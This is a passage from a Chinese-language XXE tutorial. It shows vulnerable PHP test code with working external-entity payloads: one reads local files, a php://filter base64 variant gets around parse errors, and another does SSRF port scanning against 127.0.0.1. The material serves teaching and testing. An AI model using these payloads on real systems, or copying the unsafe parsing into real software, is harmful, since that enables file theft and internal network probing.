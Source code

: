 ![此处输入图片的描述][2]

这可以说是一种教科书式的xxe攻击，通过外部实体引用，可以获取远程文件内容。但是有个问题，如果文件内容格式太过复杂，就会导致 xml 解析失败(比如内容里含有 空格、一些特殊字符 < > & ; 之类的文件)

 


 在本地使用这段代码进行测试：

     <?php 
    header("Content-type: text/html; charset=utf-8"); 
    echo "<h3>xxe漏洞测试！</h3>";  
    $xml = '<?xml version="1.0" encoding="utf-8"?> 
    <!DOCTYPE xdsec   
    [ <!ELEMENT methodname ANY > <!ENTITY xxe SYSTEM "file:///D:/QQWhatsnew.txt" >]>   
    <root> <name>&xxe;</name> </root>';  
    try{   
    $doc = simplexml_load_string($xml); echo $doc->name;  
    }   
    catch(Exception $e){   
    print "error";   
    }  
    ?>  
效果如下：
![此处输入图片的描述][3]

在文件中加入<，报错：
![此处输入图片的描述][4]

这个其实有绕过方法的，可以利用***参数实体***，具体的内容后面介绍

还有一个我们知道的方法，就是使用 php 伪协议，php://filter 读取文件内容（ 文件内容经过 base64 过滤器，就是全字符的，没有格式干扰）
例如上面的代码可修改为：

    <!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=D:/QQWhatsnew.txt" >

四、URL 请求(ssrf)
==============
这里举一个端口扫描的例子：

    <?php 
    header("Content-type: text/html; charset=utf-8"); 
    echo "<h3>xxe漏洞测试！</h3>";  
    $xml = '<?xml version="1.0" encoding="utf-8"?> 
    <!DOCTYPE UserInfo[<!ENTITY name SYSTEM "http://127.0.0.1:135/">]>
    <UserInfo>
    <name>&name;</name>
    </UserInfo>';  
    try{   
    $doc = simplexml_load_string($xml); echo $doc->name;  
    }   
    catch(Exception $e){   
    print "error";   
    }  
    ?>  


  [1]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180210135808.png
  [2]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180210135910.png
  [3]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180210154732.png
  [4]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180210154933.png
  [5]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180211131939.png
  [6]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180211132137.png
  [7]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180211133129.png
  [8]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180211133154.png
  [9]: https://raw.githubusercontent.com/StarryPath/xxe-png/master/QQ%E6%88%AA%E5%9B%BE20180211133946.png